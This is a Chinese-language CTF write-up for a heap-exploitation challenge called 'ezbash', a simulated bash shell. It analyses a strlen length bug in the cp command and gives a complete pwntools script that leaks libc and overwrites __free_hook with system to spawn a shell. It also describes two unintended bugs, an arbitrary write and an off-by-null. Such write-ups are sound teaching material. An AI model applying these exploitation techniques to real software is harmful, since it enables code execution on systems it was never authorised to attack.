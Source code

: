# ezbash

## 分析

题目模拟了一个简易版的bash

一个节点对应的结构体如下

```C
typedef enum
{
	DIR,
	FIL,
} TYPE;

struct Node
{
	TYPE type;
	char Name[0x10];
	char *content;
	struct Node *pre;
	struct Node *next;
	struct Node *parent;
	struct Node *head;
};
```

在cp的实现中，当目标文件名已经存在时，源文件内容会直接覆盖目标文件内容
而源文件和目标文件都有内容时，需要考虑重新分配内存空间，这里的实现存在一定的不严谨
`overwrite`函数中

![](https://md.buptmerak.cn/uploads/upload_416fc9a06ffe5cf6183584ff14323562.png)


注意到这里使用`strlen`测量长度，有一种可能当堆块复用时chunk的内容和下一个chunk的size位是连在一起的，就会发生`strlen`测出来的长度大于内容实际长度的情况

而一个文件内容的写入使用的是`echo`
这里本人悄悄把重定向符改成了`->`，主要是为了保证一定的逆向过程（，配合`echo`能够对文件写入内容
然而`echo`写入内容时对内存的申请并不根据实际size申请
而是根据实际输入情况动态变化，每次变化`DEFAULT_BUFSIZE=0x150`的倍数，相对不好控制大小


![](https://md.buptmerak.cn/uploads/upload_b79645652a9a1dc6579116e67f1c858f.png)



但是同样在cp功能中，当目标文件存在但没有写入过内容时，需要申请相应的空间存放源文件内容，这里就是根据源文件内容长度进行的申请，所以可以很好地用来控制size

![](https://md.buptmerak.cn/uploads/upload_4cf460598bbafcb91a152da2cb42bfef.png)

![](https://md.buptmerak.cn/uploads/upload_76ba0c803969e212693ce656263bb2c6.png)



## 思路

根据上述，构造内容拼接到下一个chunk的size，使`strlen`测出的长度大于实际长度两个字节，控制源文件内容长度与目标文件的实际长度+2相同，并布置源文件内容的最后两个字节为想要的size，从而利用堆溢出造成chunk overlap

改成一个很大的数字，进而释放掉，泄露libc基址

在这之后利用读入command时使用`realloc`动态分配内容，输入较多内容从而直接拿回unsorted bin，并事先在其中包含一块tcache，最后打tcache即可getshell。需要注意的是这一块tcache原本属于节点之一，所以顺手把其中的指针都清零避免后续在遍历节点时出现意料之外的crash。


## exp

```python
from pwn import*
context(os='linux', arch='amd64', log_level='debug')
r = process('./ezbash')
libc = ELF('./libc.so.6')

sla = lambda x : r.sendlineafter('hacker:/$ ', x)

p = "touch "+"AAA"
sla(p)
p = "touch "+"BBB"
sla(p)
p = "touch "+"CCC"
sla(p)

p = 'echo '+'A'*0xf8+" -> "+'AAA'
sla(p)
p = 'cp AAA BBB'
sla(p)

p = 'echo '+'A'*0xf8
p = p.encode('ISO-8859-1')
p+= p16(0x431)
p = p.decode('ISO-8859-1')
p+= ' -> '+'CCC'
sla(p)

for i in range(10):
	p = "touch "+"pad"+str(i)
	sla(p)

p = 'cp CCC BBB'
sla(p)

p = 'rm CCC'
sla(p)

p = 'echo '.encode('ISO-8859-1')
p+= p8(0xd0)
p = p.decode('ISO-8859-1')
p+= ' -> '
p+= 'BBB'
sla(p)

p = 'cp BBB pad9'
sla(p)

p = 'cat pad9'
sla(p)
libc.address = u64(r.recvuntil(b'\x7f')[-6:]+b'\x00\x00')-\
	1104-0x10-libc.sym['__malloc_hook']

p = 'rm pad0'
sla(p)

p = b'A'*0x130
p+= p64(0)+p64(0x51)
p+= p64(libc.sym['__free_hook']-4)
p+= p64(0)*8+p64(0x51)+p64(0)*6
sla(p)

p = 'touch final1\x00'
sla(p)

p = 'echo /bin/sh -> final1'
sla(p)

p = b'touch '+p64(libc.sym['system'])
sla(p)

p = 'rm final1'
sla(p)

log.success(hex(libc.address))
r.interactive()
```

## 非预期

（早知道不设计洞了，让大佬🚪ri就完事了orz）

最后提交的wp中，只有r4战队使用的是预期解，非预期有两种

1. cp中，当目标文件内容⻓度小于源文件内容长度，realloc返回值赋给了结构体指针，又能够以指针+0x18索引进行写操作，于是存在任意写，这也是大部分战队提交的wp中利用的漏洞。这里纯属本人沙贝了不知道为啥少打了东西😢

2. 还有一个洞在`cd`中`strcat`拼接路径时，当前路径名称存在bss段，其下方放了一个指向当前目录节点的指针，对路径字符串的长度限制不到位于是存在off by one。然而由于使用的是`strcat`，复制后会添加上截断字符，会把指针截断，所以最终只能用作off by null使用，可以用来控制节点。（polaris大佬的做法）